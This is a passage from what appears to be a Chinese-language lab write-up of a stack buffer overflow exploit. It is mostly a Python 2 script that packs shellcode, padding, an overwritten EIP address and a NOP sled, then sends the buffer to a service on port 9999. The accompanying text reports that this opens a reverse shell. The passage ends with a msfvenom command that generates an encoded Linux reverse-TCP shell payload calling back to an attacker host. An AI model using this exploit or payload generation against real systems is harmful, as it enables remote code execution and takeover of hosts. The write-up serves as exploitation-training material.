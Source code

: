 ```
shellcode +="\xaf\xc4\x7e\x96\x44\x96\x6f\x9e\xb9\x6f\x91\x8f\x6c\xfb\xc8"
shellcode +="\x0f\x8f\x28\x61\x06\x97\x2d\x4c\xd0\x2c\x85\x3a\xe3\xe4\xd7"
shellcode +="\xc3\x48\xc9\xd7\x31\x90\x0e\xdf\xa9\xe7\x66\x23\x57\xf0\xbd"
shellcode +="\x59\x83\x75\x25\xf9\x40\x2d\x81\xfb\x85\xa8\x42\xf7\x62\xbe"
shellcode +="\x0c\x14\x74\x13\x27\x20\xfd\x92\xe7\xa0\x45\xb1\x23\xe8\x1e"
shellcode +="\xd8\x72\x54\xf0\xe5\x64\x37\xad\x43\xef\xda\xba\xf9\xb2\xb2"
shellcode +="\x0f\x30\x4c\x43\x18\x43\x3f\x71\x87\xff\xd7\x39\x40\x26\x20"
shellcode +="\x3d\x7b\x9e\xbe\xc0\x84\xdf\x97\x06\xd0\x8f\x8f\xaf\x59\x44"
shellcode +="\x4f\x4f\x8c\xcb\x1f\xff\x7f\xac\xcf\xbf\x2f\x44\x05\x30\x0f"
shellcode +="\x74\x26\x9a\x38\x1f\xdd\x4d\x87\x48\x9e\x0d\x6f\x8b\x20\x0f"
shellcode +="\xcb\x02\xc6\x65\x3b\x43\x51\x12\xa2\xce\x29\x83\x2b\xc5\x54"
shellcode +="\x83\xa0\xea\xa9\x4a\x41\x86\xb9\x3b\xa1\xdd\xe3\xea\xbe\xcb"
shellcode +="\x8b\x71\x2c\x90\x4b\xff\x4d\x0f\x1c\xa8\xa0\x46\xc8\x44\x9a"
shellcode +="\xf0\xee\x94\x7a\x3a\xaa\x42\xbf\xc5\x33\x06\xfb\xe1\x23\xde"
shellcode +="\x04\xae\x17\x8e\x52\x78\xc1\x68\x0d\xca\xbb\x22\xe2\x84\x2b"
shellcode +="\xb2\xc8\x16\x2d\xbb\x04\xe1\xd1\x0a\xf1\xb4\xee\xa3\x95\x30"
shellcode +="\x97\xd9\x05\xbe\x42\x5a\x35\xf5\xce\xcb\xde\x50\x9b\x49\x83"
shellcode +="\x62\x76\x8d\xba\xe0\x72\x6e\x39\xf8\xf7\x6b\x05\xbe\xe4\x01"
shellcode +="\x16\x2b\x0a\xb5\x17\x7e"

buffersize = 524

eip = pack('<L', 0x311712f3)
buffer = "\x41"*buffersize + eip + "\x90" *16+shellcode 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
print len(shellcode)
s.connect((host, 9999))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"

```

![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/10.PNG)

执行后成功反弹shell。原理就不解释了，看以前的文章。

## d6.py
在本地windows运行成功后，把shellcode改为linux的

msfvenom -l payload | grep linux

```
LHOST是kali的IP
LHOST是kali的监听端口
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.67.128 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c
```
